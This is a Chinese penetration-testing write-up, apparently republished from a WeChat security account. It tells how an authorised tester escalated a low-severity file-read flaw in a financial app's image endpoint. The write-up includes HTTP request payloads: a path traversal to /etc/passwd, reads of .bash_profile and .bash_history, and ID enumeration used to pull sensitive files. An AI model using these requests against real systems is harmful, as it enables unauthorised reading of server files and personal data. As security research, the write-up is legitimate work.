 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BFJcrzP12v2Coi078s7iVQ)

在授权测试某金融类 APP 时，发现一个鸡肋低危文件读取漏洞，尝试将其升级为高危。

PS：本文仅用于技术讨论与分析，严禁用于任何非法用途，违者后果自负。

0x00 初步探测
---------

发现首次打开 APP 时，会向服务器读取文件加载并展示图片。

测试时一定要细心，笔者发现只有首次打开 APP 时，才会加载图片，后面再打开应该是资源已被记录，就不会向服务器再次进行请求了。

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBia9AxsnDSEPhkTTluyXhyv6c39X5oLM2ENAUJ5qgcUJPLGj9IdO4tWQ/640?wx_fmt=png)

此加载展示图片的 GET 请求数据包如下：

```
GET /ixxx/LgonImage.do?XxxxxImageDir=/XXXXX/Pictures&SaveXxxxxImageName=this_is_image.jpg HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBQ7oUDQCkSNaEV6Ryueb4Dr6ANntwDUGeowFV17Mf1zib7MNrIqXict9g/640?wx_fmt=png)拿到这个数据包的第一反应，以往的渗透测试经验告诉我，从这个地方大概路会存在文件读取漏洞。

分析并猜测功能点 URI 的每个参数的功能。

```
LogonImageDir=/XXXXX/Pictures - 图片所在的目录
SaveXxxxxImageName=this_is_image.jpg - 目录下的图片名

```

0x01 漏洞测试
---------

既然已经初步探测到了可能存在漏洞的风险点，并且文件读取功能的参数已经搞清楚，下一步就展开读取测试。

首先测试，是否可以进行目录列出，直接将 SaveXxxxxImageName 参数置空，看看是否可以读取 / XXXXX/Pictures 目录下的内容：

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/XXXXX/Pictures&SaveXxxxxImageName= HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

返回为 “空”，失败，说明程序功能点不存在列出目录漏洞：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBmrWQt8EMGhMCXo7XgJG0IniacjzWPKkib7sSicULG7nc9soUME9ryzPzQ/640?wx_fmt=png)测试是否可以跳出目录，选用 Payload 如下：

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/XXXXX/Pictures/../../../../../../etc/&SaveXxxxxImageName=passwd HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

返回某防火墙拦截界面，失败：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBSIiaV60cXOepiboG497kQ1MiaQicfo1UKGq7O94NIlzkPtUIzW64du3JTQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kB1uPcH6z1jfzR4oiaJ2b7JH4FNpfmxkNibuwuWzkdiaNrospEvZu1tovtQ/640?wx_fmt=png)

接下来进一步测试，是 / etc/passwd 触发的 WAF，还是 /../ 触发的 WAF。

测试只进行一层目录跳出，并且删除 / etc/passwd 关键字：

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/XXXXX/Pictures/../&SaveXxxxxImageName= HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

唔… 看来 /../ 的特殊字符就已经触发了 WAF：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBYxp8qqia1y0Bh8nofBBc7j5nPWyBMxWSeVtJANzu7y6UTzKWusHoUng/640?wx_fmt=png)

之后想到尝试对数据包进行 POST 类型转换，使用 POST 传参的一些方式进行 WAF 的测试，如：

*   URL 编码
    
*   分块传输
    
*   脏数据填充
    
*   包体转换
    
*   畸形数据包
    
*   ……
    

但是无奈，POST 请求直接无法传参，程序限制了 GET 请求接收参数。

（不过，后来测试其他 POST 传参的功能时，发现以笔者现有的 WAF 绕过经验思路，根本无法对某恒的 WAF 进行绕过…..）

0x02 漏洞确认
---------

总结以上对此文件读取漏洞收集到的信息：

目录无法跨越，并且文件读取的路径在当前根目录；

特殊字符串，已被 WAF 完美防护住；

无法获取目录下的文件名、无法预知是否可以读取其他后缀文件。

测试到这里突然灵光一闪，想到了 “.bash_history”，如果网站根目录存在此文件，并且可以读取，上面的疑问就可以直接解决大半了，先来了解一下这些文件作用：

.bash_profile：此文件为系统的每个用户设置环境信息，当用户第一次登录时，该文件被执行。

.bash_history：该文件保存了当前用户输入过的历史命令；

.bash_logout：该文件的用途是用户注销时执行的命令，默认为空；

.bashrc：此文件为每一个运行 bash shell 的用户执行此文件。当 bash shell 被打开时，该文件被读取。

于是直接对网站根目录进行. bash_profile 的盲测：

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/&SaveXxxxxImageName=.bash_profile HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

此 payload 既避免了跳出目录，又避开了 WAF 严打的特殊字符，但是唯一遗漏的. bash 文件被我们利用到了。

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kB3jicuG6heSDIz6NnpFiceTCEicA1dVNXXuAUV4Nic4jxUDt8iceqvkabuGA/640?wx_fmt=png)激动的心颤抖的手，看来当前网站根目录确实是此用户的目录，并且用户在此根目录下执行过命令！

接下来尝试进一步扩大危害。

0x03 危害升级
---------

不清楚当前目录结构，就代表着无法定向读取文件，但是还有一个. bash_history 我们没有利用到，看看是否可以在其中获取到更重要的信息。

读取根目录下的. bash_history：

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/&SaveXxxxxImageName=.bash_history HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

信息量虽然少，但是已经有了新的进展：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBsAgPT4m8sHS9feibiaT46vydrFRwiaXKfa5BJlgqReZgyao3rDkBLKD4g/640?wx_fmt=png)由历史命令得知，管理员 cd 进入了两层目录：/Nxxxx/xxFile/

并且查看了 xx_20201022_51xxx.txt 文件。

直接构造读取此文件！

```
GET /ixxx/LogonImage.do?XxxxxImageDir=/Nxxxx/xxFile&SaveXxxxxImageName=xx_20201022_51xxx.txt HTTP/1.1
Host: xxxxx.com
Connection: close
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

```

成功读取到了敏感的数据信息：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBkvXnIHA9LddaKnQUBulrIJPqUWFp5W1j9ROMQAXFpricU5icyyhzZKgA/640?wx_fmt=png)并且文件的 ID 值为时间戳 + ID 顺序编号组成，可轻松遍历出全部的信息。

Burpsuite Intruder 模块测试：

![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ZclBI1VNMALxfjiaOSz0kBaibicEmGroCkH1Jz2clG0roaoTic3RPd7XsBoIQBVHick86dUauhK6qymw/640?wx_fmt=png)尝试遍历 10 个 ID 值成功。

0x04 回首总结
---------

存在的难题：目录无法跨越、WAF 盯防、无法预知目录文件结构。

在此情况下，利用 Linux 文件系统特性，仍然可以将低危漏洞提升至高危。

并且危害的等级高低是无法预估的，这取决于. bash_history 会给我们泄露多少信息，所以文件读取漏洞存在时间越久，记录的东西越多，危害越大！

希望这个简单的漏洞挖掘过程，能给大家带来一些挖洞思路~

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38Tm7G07JF6t0KtSAuSbyWtgFA8ywcatrPPlURJ9sDvFMNwRT0vpKpQ14qrYwN2eibp43uDENdXxgg/640?wx_fmt=gif)

![](http://mmbiz.qpic.cn/mmbiz_png/3Uce810Z1ibJ71wq8iaokyw684qmZXrhOEkB72dq4AGTwHmHQHAcuZ7DLBvSlxGyEC1U21UMgSKOxDGicUBM7icWHQ/640?wx_fmt=png&wxfrom=200) 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

精彩推荐

  

  

  

  

****![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib2xibAss1xbykgjtgKvut2LUribibnyiaBpicTkS10Asn4m4HgpknoH9icgqE0b0TVSGfGzs0q8sJfWiaFg/640?wx_fmt=jpeg)****

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR3icpSmNbdiaVpmTEfDHJFoS2OIO0ibau3Xo0W3W5icSIT9hIQY4gmlK4nOY8jcVq2hngIe7Fug8w6lHyQ/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484287&idx=1&sn=16a9b2dc0e205a0e5fe86ae5cae9fe2e&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39823fgk2Py1fbU5wCoewwO0AKFIGmCLF6bY37GDicGMDRicgQf6xW1jtjY8Raby8RjiauX5205Zg8Dg/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484370&idx=1&sn=8b79701a2936e04e390f165344e5fcdc&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR3ibiaZJLCsVMlaEsibPjqzeh60YWkj7icVX18lFGJjXJia40sq6PzwUJ8urTCswbZdc4g7KnKklEcsJKdw/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247485180&idx=1&sn=06c034789bc8656821df64075e3d9372&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38ibJ9pkJia3Q6VHGxykVprRoZlaPuPLW8XKKK9XdK8RVljA2pBue8QhRyTx8HQoVEC5Kre2H3Y44vQ/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247485114&idx=1&sn=0c765c3970ddfd1021b59c6adaea52ce&scene=21#wechat_redirect)![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38zicMqOsJkQvPpKaPxqjyZ7deMd3Oj2po4iclibkAAzPLIHN0KQpUYHsrhB0Zr9GzsFGzwQ6cEZK0xw/640?wx_fmt=png)

**************![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif)**************